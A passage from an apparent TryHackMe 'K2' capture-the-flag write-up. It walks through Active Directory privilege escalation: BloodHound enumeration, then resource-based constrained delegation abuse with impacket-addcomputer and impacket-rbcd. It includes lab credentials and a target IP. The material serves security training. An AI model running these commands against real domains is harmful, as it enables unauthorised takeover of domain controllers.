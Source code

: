 The `notes.txt` file alludes to a checklist.

![o.arnstrong notes.txt file](/images/THM-K2/k2_summit_notes_file.png)

## What is the root flag?

### Privilege Escalation

Let's run Bloodhound and try to find some privilege escalation paths.

```
bloodhound-python -c all -u j.smith -p 'vz0q$i8b4c' -d k2.thm -dc K2RootDC.k2.thm -ns 10.10.124.173
```

Start the database and launch Bloodhound.

```
sudo neo4j start

bloodhound --no-sandbox
```

`o.armstrong` is part of the `IT DIRECTOR` group and its members have the `GenericWrite` permission on the DC. We can exploit that permission via resource-based constrained delegation (RBCD). 

![o.arnstrong IT DIRECTOR MEMBERSHIP](/images/THM-K2/IT_Director_membership.png)

![IT DIRECTOR GenericWrite permission](/images/THM-K2/GenericWrite_Perm.png)

> **Resource-Based Constrained Delegation (RBCD)** is a way in which a service on one machine in a Windows domain can act on behalf of a user when accessing resources on another machine. It's part of Kerberos authentication, commonly used in Active Directory environments. _Read more about it [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)_.


1. Create a computer account in the domain

```
impacket-addcomputer -computer-name 'KSCORPIO$' -computer-pass 'LETSgetr00t!' -dc-host K2RootDC.k2.thm -domain-netbios k2.thm k2.thm/o.armstrong:'arMStronG08'
```

![RBCD step 1](/images/THM-K2/RBCD1.png)


2. Modify `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the DC to include our newly created computer object in order to allow impersonation.

```
impacket-rbcd -delegate-from 'KSCORPIO$' -delegate-to 'K2RootDC$' -dc-ip 10.10.124.173 -action 'write' 'k2.thm/o.armstrong:arMStronG08'
```

![RBCD step 2](/images/THM-K2/RBCD2.png)


